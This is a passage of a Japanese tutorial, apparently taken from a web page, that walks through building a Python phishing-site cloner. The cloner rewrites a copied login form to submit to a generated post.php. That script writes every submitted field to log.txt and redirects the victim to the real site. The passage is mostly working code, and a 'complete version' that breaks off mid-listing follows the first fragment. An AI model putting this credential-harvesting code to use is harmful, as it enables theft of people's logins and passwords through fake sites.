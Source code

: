 　お気づきでしょうか？
　上記関数でaction="hoge"の値をpost.phpに書き換えています。
　今回は、入力された値を受け取りファイルに書き込むphpファイルも自動で作成
することにします。python上でpost.phpというphpファイルとlog.txtというファ
イルを作成します。post.phpがlog.txtに対して作成したフィッシングサイトの入
力値をそのまま書き込んでいくようにします。

```
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
\#phpスクリプトを自動で作成する\#
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
def makephp(RAW_URL):
        logpath = "/clone/"
        filewrite = file("%s/post.php" % (logpath), "w")
        filewrite.write("""<?php $file = 'log.txt';file_put_contents($file, print_r($_POST, true), FILE_APPEND);?><meta http-equiv="refresh" content="0; url=%s" />""" % (RAW_URL))
        filewrite.close()
        filewrite = file("%s/log.txt" % (logpath), "w")
        filewrite.write("")
        filewrite.close()
        if sys.platform == "darwin":
            subprocess.Popen("chown _www:_www '%s/log.txt'" % (logpath), shell=True).wait()
        else:
            subprocess.Popen("chown www-data:www-data '%s/log.txt'" % (logpath), shell=True).wait()
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
```

　次のプログラムは完成版になります。

```
\#\#\#\#\#\#\#\#\#\#\#\#\#\#
\#\#\#\#完成版\#\#\#\#
\#\#\#\#\#\#\#\#\#\#\#\#\#\#

from lxml import html
import subprocess
import os,sys,time,re,shutil,urllib2

\#\#\#setting\#\#\#
html_parser = html.HTMLParser(encoding="utf-8")
\#\#\#\#\#\#\#\#\#\#\#\#\#

def setdirectory():
    if check_os() == "posix":
        return os.path.join(os.path.expanduser('\~'), '/clone')
    if check_os() == "windows":
        return "src/program_junk/"

def check_os():
    if os.name == "nt":
        operating_system = "windows"
    if os.name == "posix":
        operating_system = "posix"
    return operating_system

def makephp(RAW_URL):
        logpath = "/clone/"
        filewrite = file("%s/post.php" % (logpath), "w")
        filewrite.write("""<?php $file = 'log.txt';file_put_contents($file, print_r($_POST, true), FILE_APPEND);?><meta http-equiv="refresh" content="0; url=%s" />""" % (RAW_URL))
        filewrite.close()
        filewrite = file("%s/log.txt" % (logpath), "w")
```